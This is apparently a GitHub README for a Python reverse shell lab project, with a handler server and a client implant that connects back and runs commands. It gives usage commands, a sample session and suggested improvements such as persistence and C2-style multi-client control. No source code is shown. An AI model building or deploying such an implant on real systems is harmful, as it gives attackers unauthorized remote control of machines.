 
# 🐚 Python Reverse Shell (Server + Client)

<p align="center">
  <img src="https://img.shields.io/badge/Python-3.x-blue.svg">
  <img src="https://img.shields.io/badge/License-MIT-green.svg">
  <img src="https://img.shields.io/badge/Category-Offensive%20Security-red.svg">
</p>

This project demonstrates a **basic reverse shell** implementation in Python for controlled lab use.  
It consists of two components:

- **Server (`server.py`)** → The attacker/handler that waits for connections and sends commands.
    
- **Client (`client.py`)** → The implant that connects back to the server and executes received commands.
    

⚠️ **Disclaimer**: This project is for **educational and authorized penetration testing purposes only**. Do not deploy it on systems you do not own or have explicit permission to test.

## ## 🚀 **Features**

- TCP socket communication between server and client.
    
- JSON-based encoding/decoding for safe data transfer.
    
- Command execution on the client side (including `cd` handling).
    
- Error handling for failed connections and invalid commands.
    
- Skips empty input (server does not send blank commands).
    
- Graceful exit with the `exit` command.

## ## 🧩 **Programming Logic**

### 1. Server (`server.py`)

1. **Setup Listener**
    
    - Creates a TCP socket bound to the given IP and port.
        
    - Waits for a client connection.
        
2. **Send & Receive**
    
    - Commands from the operator are serialized with `json.dumps` and sent to the client.
        
    - Responses from the client are received, reassembled, and deserialized with `json.loads`.
        
3. **Command Loop**
    
    - Prompts operator with `Shell#:` .
        
    - If the input is empty → skip sending.
        
    - If `exit` is entered → close session.
        
    - Otherwise → send command, wait for client response, print it.
        

---

### 2. Client (`client.py`)

1. **Connect to Server**
    
    - Creates a TCP socket and connects back to the operator’s IP/port.
        
2. **Receive & Execute**
    
    - Waits for JSON-encoded commands from the server.
        
    - Handles special case:
        
        - If `exit` → close connection.
            
        - If `cd <dir>` → change working directory using `os.chdir()`.
            
    - Otherwise executes commands with `os.popen()` and captures output.
        
3. **Send Response**
    
    - Always sends a JSON response back to the server (command output, error, or directory change confirmation).

## ## 📜 **Usage**

### 1. Start the Server

```python
python3 server.py <IP> <PORT>
```

```python
python3 server.py 192.168.1.23 1234
```

### 2. Start the Client

Edit the `server('IP', PORT)` line in **client.py** with your server’s IP and port:

```python
server('192.168.1.3', 1234)`
```

Then run :

```python
python3 client.py
```

### 3. Interact

- From the server console :

```bash

Shell#: ls
client.py
requirements.txt
server.py

Shell#: pwd
/home/kali/Desktop/Reverse Shell and Backdoor

Shell#: cd ..
Changed directory to: /home/kali/Desktop

Shell#: exit
```

## 🔮 Possible Improvements

- Handle large command outputs with streaming/chunking.
    
- Add command history and better shell prompt on the server side.
    
- Implement encryption (TLS or symmetric encryption) instead of plain-text sockets.
    
- Add persistence or multi-client management (C2-style).
    
- Replace `os.popen()` with `subprocess.Popen` for more robust execution.
